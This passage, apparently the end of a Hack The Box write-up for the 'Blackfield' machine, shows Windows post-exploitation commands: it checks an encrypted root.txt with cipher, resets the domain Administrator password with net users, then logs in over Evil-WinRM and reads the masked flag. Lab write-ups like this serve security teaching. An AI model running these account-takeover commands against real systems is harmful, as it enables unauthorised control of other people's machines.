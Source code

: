 ```shell
- disable auditor's account (audit2020) -- KO.
- use nominative domain admin accounts instead of this one -- KO.

We will probably have to backup & restore things later.
- Mike.

PS: Because the audit report is sensitive, I have encrypted it on the desktop (root.txt)
```
Even after becoming a Local admin we are unable to read `root.txt`, looking the `notes.txt` we understand the file is encrypted.

```shell
*Evil-WinRM* PS C:\users\administrator\desktop> cipher /c root.txt

 Listing C:\users\administrator\desktop\
 New files added to this directory will not be encrypted.

E root.txt
  Compatibility Level:
    Windows Vista/Server 2008
```
It seems the file has been encrypted with a certificate and only Administrator has authority to access it, so we will just change the password of `Administrator`:
```shell
*Evil-WinRM* PS C:\users\coldfusion\Documents> net users administrator c0!dfusion
The command completed successfully.
```
Now, We have changed the password of administrator as `c0!dfusion`
#### Administrator Shell

Shell with Administrator creds:

```shell
cfx:  ~/Documents/htb/blackfield/Hijack
→ evil-winrm -i 10.10.10.192 -u administrator -p 'c0!dfusion'

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Administrator\Documents> cd ../Desktop
*Evil-WinRM* PS C:\Users\Administrator\Desktop> whoami
blackfield\administrator
*Evil-WinRM* PS C:\Users\Administrator\Desktop> get-content root.txt
49160cc348b7263*****************

```

And we pwned the Box !

Thanks for reading, Suggestions & Feedback are appreciated !
